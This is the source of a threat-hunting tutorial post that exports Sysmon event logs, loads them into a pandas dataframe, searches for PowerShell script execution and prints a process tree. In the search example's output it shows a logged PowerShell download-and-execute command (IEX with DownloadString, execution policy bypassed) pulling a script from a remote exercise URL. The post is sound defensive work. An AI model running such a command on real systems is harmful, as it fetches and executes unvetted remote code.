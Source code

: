 ```yaml
---
title: "Threat Hunting with sysmon 101 part 4: Loading events in pandas dataframe"
date: 2024-03-26 11:40:00 +0200
categories: Threat_hunting
description: Threat hunting with sysmon 
tags: Threat hunting sysmon Threat-hunting windows logs ELK
published: false
---
```


In the past article, we used powershell scripting to filter the events and perform basic querying, in this article we will load sysmon logs into python, and explore some powerful queries that we can apply to our data to gain better understanding of it.

# Exporting events to xml
The first step is to export sysmon events from the event log in xml format. This can be done either using get-winevent, or wevtutil. But, it seems that wevtutil is much faster .

This command uses **wevtutil.exe** to dump the logs to **exported-eventlog.xml** file on the desktop in XML format.
```
WEVTUtil query-events "Microsoft-Windows-Sysmon/Operational" /format:xml /e:events > ~/Desktop/exported-eventlog.xml
```
Or, this slower version that uses **Get-WinEvent** powershell command
```
 Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'} |Export-Clixml -Path ~/Desktop/exported-eventlog.xml
```

Make sure to run these commands as admin in order to export the logs properly.

# Loading Events in python
Parsing XML files in python is easy, we just need to know which nodes/attributes are useful for us, this code snipper will load the xml file, iterate over each event, extract some data from each event, and then store load every thing in pandas dataframe.

```
import tabulate
from bs4 import BeautifulSoup
import pandas as pd

with open(r'exported-eventlog.xml', 'r' , encoding='utf16') as f:
    data = f.read()

parsed = BeautifulSoup(data, "xml")

events_list  = []
for event in parsed.find_all('Event'):
    evt_dict ={}
    evt_dict['EventID'] = event.find('EventID').text
    evt_dict['Computer'] = event.find('Computer').text
    evt_dict['EventRecordID'] = event.find('EventRecordID').text
    for j in event.find_all("Data"):
        evt_dict[j['Name']] = j.text
    events_list.append(evt_dict)

df = pd.DataFrame(events_list)
print('Loaded %d events' % len(df))
```

# Use case: Search for execute .ps1 files

```
filtered_df = df[(df['CommandLine'].notna()) & (df['CommandLine'].str.match('.*PoWeRSHeLl.*pS1.*',case=0))][['EventID','ProcessId','Image','CommandLine']]
print(tabulate.tabulate(filtered_df ,headers= filtered_df.columns))
```

```
        EventID    ProcessId  CommandLine
----  ---------  -----------  ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 115          1         3900  powershell.exe  -noexit -ep bypass -command IEX((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/11x256/11x256.github.io/test/assets/exercise/th3/1.ps1'))

9082          1         7464  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noexit -command "try { . \"c:\Users\abdo-pc\AppData\Local\Programs\Microsoft VS Code\resources\app\out\vs\workbench\contrib\terminal\browser\media\shellIntegration.ps1\" } catch {}"

```


# Use case: Create Process Tree
Another thing we can try now is to create a process tree to show the relationships between the processes.
In order to create a process tree, we will need 2 things:
- identify root nodes, these nodes (processes) don't have a parent, this can be either due to missing data, or because thats the first process created by the OS.
- Create list of children of each node: this will allow us to create the parent-child relationship


## The firs step: Prepare the data
In this step will check what nodes are missing from our data ,and we will select a subset of filed to use in the process tree
```
# List to store all the nodes
nodes = []
# Dictionary to identify missing nodes
nodes_guids = {}
for i in df[df['EventID'] == "1" ].itertuples():
    node = {}
    node['Name'] = i.Image.split('\\')[-1]
    node['Cmd'] = i.CommandLine
    node['ProcessGuid'] = i.ProcessGuid
    node['ParentProcessGuid'] = i.ParentProcessGuid
    node['ProcessId'] = i.ProcessId

    nodes.append(node)
    nodes_guids[i.ProcessGuid] = 1 # set the node in the dict as available
```



## The second step: Create the parent-child relationship

```
roots = []
childs = {}

for i in nodes:
    if nodes_guids.get(i['ParentProcessGuid'] , 0 ) == 0:
        roots.append(i)
    else:
        if i['ParentProcessGuid']  not in childs:
            childs[i['ParentProcessGuid'] ] = []
        childs[i['ParentProcessGuid'] ].append(i)


```

This code will create a list of roots, nodes without a parent in our set of data. And it will create a list of childs for each parent

## The third step: Print the tree
Now, we have every thing ready, we just need to print the data using recursion. Recursion is used in order to print the data in the required order, we need to print the root, then the first child, then the first child of the first child, and so on...
```
root
    child 1
        child 1 1
            child 1 1 1
        child 1 2
        child 1 3
            child 1 3 1
            child 1 3 2
    child 2
    child 3 
    ... 
```
Using a for loop to print the data , we will get in weird order for a process tree, which will look like this:
```
root
    child 1
    child 2
    child 3
    child 4
    child 1 1
    child 1 2
    child 3 1
    .... and so on
```

```
def print_node(node, indent =0):
    print(' '*indent , node['Name'] , node['ProcessId'])
    for j in childs.get(node['ProcessGuid'] , []):
        print_node(j, indent=indent+4)
for i in roots:
    print_node(i)

```

Which would print something like this, based on what you choose to print 

```
 mscorsvw.exe 1532
 mscorsvw.exe 5964
 chrome.exe 9320
     chrome.exe 6456
     chrome.exe 7568
     chrome.exe 940
     chrome.exe 10788
     chrome.exe 7448
     chrome.exe 3400
     chrome.exe 7060
     chrome.exe 5292
     chrome.exe 11128
     chrome.exe 4340
     chrome.exe 8556
     chrome.exe 8816
     chrome.exe 2052
     chrome.exe 5896
     chrome.exe 7016
     cmd.exe 5292
         conhost.exe 8224
     chrome.exe 768
     chrome.exe 9288
     chrome.exe 9716
     cmd.exe 4264
         conhost.exe 6736
    ....
```


